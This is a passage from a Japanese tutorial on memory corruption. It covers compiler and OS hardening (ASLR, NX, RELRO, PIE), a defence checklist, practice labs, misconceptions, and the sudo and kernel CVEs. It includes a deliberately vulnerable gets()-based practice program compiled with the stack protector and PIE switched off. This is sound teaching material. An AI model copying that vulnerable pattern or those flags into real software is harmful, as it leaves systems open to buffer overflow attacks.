afl-fuzz -i in -o out -- ./vuln_fuzz @@
# → クラッシュを自動記録し、入力パターンを探索する
```

### OS・コンパイラレベルの多層防御

```bash
# ✅ ASLR を有効にする（Linux デフォルトは有効）
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
# 0 = 無効, 1 = 部分的, 2 = 完全ランダム化

# ✅ NX（実行不可スタック）: デフォルト有効
# 無効化しないこと（-z execstack は研究目的のみ）

<!-- 修正: GCC hardened コマンドのバックスラッシュ後コメントを削除してコピペ実行可能に修正。
         -O2 を追加（_FORTIFY_SOURCE=2 は最適化なしでは効きにくい） -->
# ✅ 完全な保護を有効にしたコンパイル例（コピペ実行可能）
# -fstack-protector-strong : Stack Canary
# -O2 -D_FORTIFY_SOURCE=2  : 安全関数の境界チェック強化（O2 必須）
# -pie -fPIE               : PIE（アドレスランダム化）
# -Wl,-z,relro             : RELRO（GOT を読み取り専用化）
# -Wl,-z,now               : Full RELRO（GOT を起動時に即時解決してその後読み取り専用に）
gcc -o hardened app.c \
    -fstack-protector-strong \
    -O2 -D_FORTIFY_SOURCE=2 \
    -pie -fPIE \
    -Wl,-z,relro \
    -Wl,-z,now

# checksec で確認
checksec --file=./hardened
# → RELRO: Full RELRO / Stack: Canary / NX: NX enabled / PIE: enabled
```

### 防御策チェックリスト

<!-- 修正: strncpy → snprintf を主推奨に変更。use-after-free 対策を強化 -->
| 脅威 | 対策 | 確認コマンド |
|---|---|---|
| スタック BOF | `snprintf` 等 + Stack Canary | `checksec --file=./binary` |
| シェルコード注入 | NX / DEP 有効 | `checksec` で NX enabled 確認 |
| ROP / ret2libc | ASLR + PIE | `/proc/sys/kernel/randomize_va_space` = 2 |
| GOT 書き換え | Full RELRO (`-Wl,-z,now`) | `checksec` で Full RELRO 確認 |
| use-after-free | 所有権設計 + `free()` 後 NULL 化 + ASan | `gcc -fsanitize=address` |
| 未初期化メモリ | `calloc()`/`Buffer.alloc()` 使用 | `valgrind --tool=memcheck` |
| PHP Object Injection | JSON 移行（根本対策）/ HMAC 署名検証 | SAST ツールでレビュー |

---






## 実演ラボ案内

### Hack The Box Academy

<!-- 修正: 同じ module/details/31 が重複していたため整理。不確かな module/details/229 は削除してSkill Path 表記に変更 -->
- **Module**: Stack-Based Buffer Overflows on Linux x86  
  `https://academy.hackthebox.com/module/details/31`
- **Skill Path**: Introduction to Binary Exploitation（Assembly → Linux x86 BOF の順で進む）  
  `https://academy.hackthebox.com/path/preview/intro-to-binary-exploitation`
- **Heap Exploitation 系モジュール**: HTB Academy で "heap" を検索して最新モジュールを確認

### TryHackMe

- **Room**: Buffer Overflow Prep（スタック BOF 入門）  
  `https://tryhackme.com/room/bufferoverflowprep`
- **Room**: Pwn101（CTF スタイルの Pwn 入門）  
  `https://tryhackme.com/room/pwn101`

<!-- 修正: Pwn 系ラボとして ROP Emporium と pwn.college を追加 -->
### ROP Emporium（ret2win → ROP への段階的な演習）

- `ret2win` → `split` → `callme` → `write4` の順でスタック BOF から ROP まで段階的に学べる
- `https://ropemporium.com/`

### pwn.college（無料・体系的な Pwn 学習）

- Assembly → メモリ → BOF → Shellcoding → ROP の順で構成されており HTB との組み合わせに最適
- `https://pwn.college/`

### 自宅環境のセットアップ

```bash
# pwntools + GDB プラグインのインストール
pip install pwntools
sudo apt install gdb

# pwndbg（peda より高機能、推奨）
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh

# AddressSanitizer + UBSan でメモリエラーを可視化（デバッグ用）
gcc -o asan_demo demo.c -fsanitize=address,undefined -g
./asan_demo
# → メモリエラー発生箇所をスタックトレース付きで表示

# 脆弱なバイナリを自分で作って練習（stdin 型）
cat > practice.c << 'EOF'
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void vuln() { char buf[32]; gets(buf); }
int main() { vuln(); return 0; }
EOF
# ret2win 練習は -z execstack なしでよい
gcc -o practice practice.c -fno-stack-protector -no-pie
checksec --file=./practice
```

---

## よくある誤解

### 誤解 1: 「スタックは上方向に伸びる」

x86/x86-64 では **スタックは高位アドレスから低位アドレスへ（下方向に）伸びる**。`push` 命令は RSP を減算してからデータを書き込む。一方、典型的な C 配列では `buf[0]` から高位側へ連続して書かれる。この「逆向き」の組み合わせが BOF でリターンアドレスを上書きできる理由だ。

```
RSP (スタックポインタ)          ← push で RSP が減る（下方向）
 ↓                              ← バッファへの書き込みは上方向
[buf[0]][buf[1]]...[buf[63]][saved RBP][Return Address]
```

### 誤解 2: 「ヒープとスタックは別のプロセスで管理される」

どちらも **同一プロセスの仮想アドレス空間内**にある。違いは管理方法だ。スタックは CPU の命令（PUSH/POP）と RSP レジスタで自動管理される。ヒープはアロケータ（glibc ptmalloc2 等）がソフトウェアで管理する。

### 誤解 3: 「ASLR があれば BOF は防げる」

ASLR はアドレスをランダム化するが、**情報リーク脆弱性**（メモリ上のアドレスを読み取る脆弱性）が組み合わさると無力化できる。また 32bit プロセスではエントロピーが低く、ブルートフォースが現実的なケースもある。ASLR は重要な緩和機構だが、単独で完全な防御にはならない。

### 誤解 4: 「Python/Node.js は C と違うのでメモリ管理は関係ない」

Python や Node.js もインタープリタ/ランタイム自体は C/C++ で書かれており、そのメモリ管理バグを突く攻撃は存在する。さらに PHP の `unserialize()` や Node.js の `Buffer.allocUnsafe()` のように、**言語レベルのAPIがメモリを直接操作する箇所**は攻撃面になりうる。高水準言語だからといってメモリを無視できるわけではない。

---

## 関連 CVE と被害事例

<!-- 修正: CWE を追加して教育的な整理を加える -->
### 関連 CWE

| CWE | 名称 | 本記事との対応 |
|---|---|---|
| **CWE-120** | Buffer Copy without Checking Size of Input | `strcpy`/`gets` 等の無境界コピー |
| **CWE-121** | Stack-based Buffer Overflow | スタック BOF の節 |
| **CWE-122** | Heap-based Buffer Overflow | ヒープ BOF・sudo CVE |
| **CWE-416** | Use After Free | UAF デモの節 |
| **CWE-787** | Out-of-bounds Write | BOF 全般 |
| **CWE-190** | Integer Overflow or Wraparound | CVE-2022-0185 |

### CVE-2021-3156 — sudo ヒープバッファオーバーフロー（Baron Samedit）

`sudo` の引数処理に存在したヒープバッファオーバーフロー（CWE-122）。通常ユーザーがローカルで `root` 権限を取得できる。CVSS: **7.8（High）**。2021 年発見当時、10 年以上放置されていた欠陥で、Ubuntu / Debian / Fedora の主要ディストリビューションが影響を受けた (Qualys, 2021)。

```bash
# 影響確認（修正済みバージョンかチェック）
sudo --version
# sudo 1.8.32 未満 / 1.9.0〜1.9.5p1 未満が脆弱
```

### CVE-2022-0185 — Linux カーネル整数オーバーフロー → コンテナブレイクアウト

Linux カーネルの `fsconfig()` システムコールで整数オーバーフロー（CWE-190）が発生し、ヒープバッファへの境界外書き込み（CWE-787）が可能に。コンテナ環境からホスト kernel へのエスケープが実証された。CVSS: **8.4（High）**。Docker / Kubernetes 環境に影響 (NIST, 2022)。

<!-- 修正: CVE-2023-0386 の「根本原因はビットフィールドの処理不備」は断定が強すぎ、かつメモリモデルとの直接関連も弱いため削除し、一般化した記述に置き換え -->

### 国内・国際の主要被害事例

<!-- 修正: 「国内 EC サイト複数で unserialize 経由の WebShell 設置」は根拠が弱いため一般化 -->
| 年 | 脆弱性タイプ（CWE） | 内容 |
|---|---|---|
| 2021 | CWE-122 ヒープ BOF | CVE-2021-3156：主要 Linux ディストリビューション全体でローカル特権昇格 |
| 2022 | CWE-190 → CWE-787 | CVE-2022-0185：コンテナブレイクアウト、クラウド環境に広範な影響 |
| 2023 | PHP Object Injection | PHP の安全でないデシリアライゼーションによる WebShell 設置事例は国内外で報告されている (OWASP, 2021) |

---

## 次に学ぶべき記事

- **[スタックバッファオーバーフロー完全解説](../stack-bof-deep-dive)** — ROP・ret2libc まで掘り下げ
- **[ヒープ Exploitation 入門](../heap-exploitation-intro)** — ptmalloc2 の構造・UAF・house of series
- **[GDB / pwndbg 入門](../gdb-pwndbg-basics)** — デバッガ操作の基礎
- **[2進数・16進数・ビット演算](../bitwise-basics)** — メモリアドレスを読むための基礎
- **[整数オーバーフロー入門](../integer-overflow)** — ヒープ BOF への橋渡し
- **[シェルコード入門](../shellcode-basics)** — NX 無効環境でのコード注入

---

## 参考文献

<!-- 修正: CVE-2023-0386 の NVD リンクを削除（記事から削除したため）。MITRE CWE を追加 -->
1. Qualys Research Team. (2021). *Baron Samedit: Heap-Based Buffer Overflow in Sudo (CVE-2021-3156)*. https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
2. NIST NVD. (2022). *CVE-2022-0185*. https://nvd.nist.gov/vuln/detail/CVE-2022-0185
3. MITRE. (2024). *CWE-121: Stack-based Buffer Overflow*. https://cwe.mitre.org/data/definitions/121.html
4. MITRE. (2024). *CWE-416: Use After Free*. https://cwe.mitre.org/data/definitions/416.html
5. Andersen, S., & Abella, V. (2004). *Changes to Functionality in Microsoft Windows XP Service Pack 2 — Data Execution Prevention*. https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp-sp2/cc700810(v=technet.10)
6. Phrack Magazine. (1996). *Smashing The Stack For Fun And Profit* (Aleph One). http://phrack.org/issues/49/14.html
7. pwntools Documentation. (2024). *Getting Started*. https://docs.pwntools.com/en/stable/intro.html
8. CTF Wiki. (2024). *Stack Overflow*. https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stackoverflow-basic/
9. IPA. (2024). *安全なウェブサイトの作り方 — バッファオーバーフロー*. https://www.ipa.go.jp/security/vuln/websecurity.html
10. OWASP. (2021). *Deserialization Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
11. glibc ptmalloc2. (2024). *The GNU C Library — Memory Allocation*. https://www.gnu.org/software/libc/manual/html_node/Memory-Allocation.html
12. ROP Emporium. (2024). *ret2win*. https://ropemporium.com/challenge/ret2win.html
13. pwn.college. (2024). *Introduction to Binary Exploitation*. https://pwn.college/
